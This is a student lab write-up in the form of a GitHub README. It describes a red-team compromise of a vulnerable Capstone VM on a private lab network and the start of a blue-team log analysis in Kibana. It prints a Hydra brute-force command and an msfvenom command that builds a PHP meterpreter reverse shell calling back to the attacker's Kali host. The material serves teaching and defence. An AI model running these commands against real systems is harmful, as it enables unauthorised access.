 # Red_Vs_Blue-Project
The assessment, analysis, and hardening of a vulnerable system from the red and blue persepctive.

# Scenario

Assuming the role of both pentester (The Red Team) and SOC analyst (The Blue team), The Red Team will attack a vulnerable Capstone virtual machine, ultimately gaining root access to the machine. As Blue Team, Kibana logs will be reviewed taken during the Day 1 engagement. The logs will be used to extract hard data and visualizations. Log data will be interpreted for mitigation measures for each exploit that was successfully performed.

# Network Topology

|  IP Address   |       Machine       |
|:-------------:|:-------------------:|
|  192.168.1.1  |       Hyper-V       |
|  192.168.1.90 |         Kali        |
| 192.168.1.100 | Elastic Stack (ELK) |
| 192.168.1.105 |       Capstone      |

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/d376cac01957cbf835b0715394d88edb26bec282/Images/Project%202%20-%20Network%20Diagram.jpg)

# Red Team - Penetration Test

1. Using NetDiscover, Nmap and a simple ifconfig command, it was uncovered the IP address of the Linux web server is **192.168.1.105**. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-04%20205454.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-04%20205453.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-06%20112341.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-06%20112533.png)

In the above image, port 22 and port 80 are exposed.

2. A browser was opened and then navigated to the IP address that was discovered. A web server with a list of directories was displayed. After performing a cursory research into each directory, there was mention of a "secret folder" that proved to be a point of interest. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20113607.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20114044.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20113801.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20114329.png)

3. After navigating to the secrect folder directory by typing http://192.168.1.105/company_folders/secret_folder/, there was a road block. Credentials were needed. A login screen pops up and states "For Ashton's eyes only". More research into the "meet_our_team" directory was done to find out more information on Ashton.

Unfortunately, no further information was found on Ashton and brute forcing would have to be the next option. Hydra was used to retrieve Ashton's password using the command:

**_hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder -t 40_**

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f7fe5da82c489111f87e4dde35b77319200cfc02/Images/hydra%20scan.jpg)

4. Logging into the "secret folder" was successful! Once logged in, a lone file called "connect_to_corp_server" was discovered. Inside the file was a set of intructions on how to connect to the company's WebDAV server, along with a user named Ryan and a password MD5 hash. With the help of crackstation.net, Ryan's password was cracked.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20124857.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20125023.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20125348.png)

5. The directions in the "connect_to_corp_server" file were followed in order to gain access to the WebDAV server with Ryan's credentials. The WebDAV had unrestricted upload permissions. A payload using MSFVenom was created in order to create a PHP reverse shell using the command:

**_msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw -o shell.php_**

It was then uploaded into the WebDAV directory.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20140046.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-06%20141644.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20192302.png)

6. A listener in Metasploit was deployed. Soon after the playload was lauched, and lastly a Meterpreter session was accessed.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20200616.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20204910.png)

7. Once a shell was created and entered, the target file was located and a flag was found.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/50f24246cd5f1cfe8f8fb4a20335882dabde69dd/Images/Flag.jpg)

## Blue Team - Analysis of Attack ##

With the Red Team attack complete, It is now time to switch sides to the Blue team and anaylze the attack. Elastic Stack (ELK - 192.168.1.100) was used to send data and logs to Kibana. Filebeat, metricbeat, and packetbeat were installed prior on the target machine to perform an analysis of the attack. Indicators of attack will also be studied.

The first indicator of the attack was a pr=ort scan that bagan on **November 6th, 2021**. 
